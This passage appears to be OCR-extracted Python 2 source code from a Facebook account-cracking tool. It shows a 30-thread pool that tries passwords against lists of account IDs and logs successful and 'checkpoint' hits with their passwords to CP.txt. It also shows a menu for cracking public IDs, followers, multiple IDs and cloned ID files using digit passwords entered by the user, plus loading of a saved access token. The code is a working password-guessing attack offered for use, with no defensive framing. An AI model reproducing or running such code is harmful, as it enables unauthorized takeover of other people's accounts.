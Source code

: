                                                                         oks.append(uid + ps15)
                                                                    elif 'checkpoint' in sp:
                                                                        print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps15 + '\x1b[0;97m'
                                                                        cp = open('CP.txt', 'a')
                                                                        cp.write(uid + '|' + ps15 + '\n')
                                                                        cp.close()
                                                                        cps.append(uid + ps15)
        except:
            pass
        


    p = ThreadPool(30)
    p.map(main, id)
    print '\x1b[1;97m======================================================='
    print '\x1b[1;37m[=] PROCESS HAS BEEN COMPLETE'
    print '\x1b[1;37m[=] TOTAL OK : \x1b[1;32m' + str(len(oks))
    print '\x1b[1;37m[=] TOTAL CP : \x1b[1;31m' + str(len(cps))
    print '\x1b[1;97m======================================================='
    raw_input('\x1b[1;37mPRESS ENTER TO BACK MENU ')
    menu()


def digit():
    global token
    os.system('clear')
    
    try:
        token = open('shankar_token.txt', 'r').read()
    except IOError:
        print ''
        print '\tToken not found'
        time.sleep(1)
        login()

    os.system('clear')
    print logo
    print '\t     CRACK WITH DIGIT PASS'
    print '\x1b[1;97m======================================================='
    print '[1] CRACK PUBLIC ID'
    print '[2] CRACK FOLLOWERS'
    print '[3] CRACK MULTIPLE ID'
    print '[4] FILE CLONING'
    print '[0] BACK'
    print '\x1b[1;97m======================================================='
    digit_rishu()


def digit_rishu():
    rishu = raw_input('[?] Choose : ')
    id = []
    oks = []
    cps = []
    if rishu == '1':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        ps = raw_input('[1] Digit : ')
        ps2 = raw_input('[2] Digit : ')
        ps3 = raw_input('[3] Digit : ')
        ps4 = raw_input('[4] Digit : ')
        ps5 = raw_input('[5] Digit : ')
        ps6 = raw_input('[6] Digit : ')
        ps7 = raw_input('[7] Digit : ')
        ps8 = raw_input('[8] Digit : ')
        ps9 = raw_input('[9] Digit : ')
        ps10 = raw_input('[10] Digit : ')